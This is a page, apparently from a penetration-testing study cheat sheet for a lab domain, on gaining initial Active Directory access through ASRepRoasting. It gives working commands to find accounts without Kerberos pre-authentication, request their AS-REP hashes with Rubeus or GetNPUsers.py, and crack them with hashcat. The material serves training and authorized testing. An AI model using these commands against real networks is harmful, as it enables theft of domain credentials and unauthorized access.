 -----

## Phase 1: Gaining Initial Access

This phase focuses on turning zero access into a foothold. The goal is to obtain at least one valid set of domain credentials through network-level attacks, user enumeration, and exploiting weak configurations. 🔑

### ASRepRoasting

This attack targets user accounts that have **Kerberos pre-authentication disabled**. This insecure setting allows an attacker to request a piece of Kerberos data for that user, which is encrypted with the user's NTLM password hash. This data can be taken offline and cracked without ever sending a bad password to the Domain Controller, thus avoiding lockouts.

* **Step 1: Find Vulnerable Users**
    * **What it does:** Uses PowerView (from Windows) or `kerbrute` (from Linux) to identify accounts with the "Do not require Kerberos preauthentication" flag set.
    * **When to use it:** During unauthenticated or authenticated enumeration to find easy targets for offline password cracking.
    * **Example Commands:**
        ```powershell
        # From Windows, using PowerView
        Get-DomainUser -PreauthNotRequired | select samaccountname
        ```
        ```shell
        # From Linux, enumerating and validating a user list
        kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/userlist.txt
        ```

* **Step 2: Request the Hash**
    * **What it does:** Uses `Rubeus` (Windows) or Impacket's `GetNPUsers.py` (Linux) to request the crackable Kerberos ticket (the AS-REP response) for a vulnerable user.
    * **When to use it:** After identifying a target from Step 1. This step requires no password.
    * **Example Commands:**
        ```shell
        # From Windows
        .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
        ```
        ```shell
        # From Linux
        GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
        ```

* **Step 3: Crack the Hash**
    * **What it does:** Uses Hashcat to perform an offline brute-force or dictionary attack against the captured AS-REP hash.
    * **When to use it:** Once you have the hash. The goal is to recover the user's cleartext password.
    * **Example Command:**
        ```shell
        # The mode '18200' is for Kerberos 5, etype 23, AS-REP
        hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
        ```
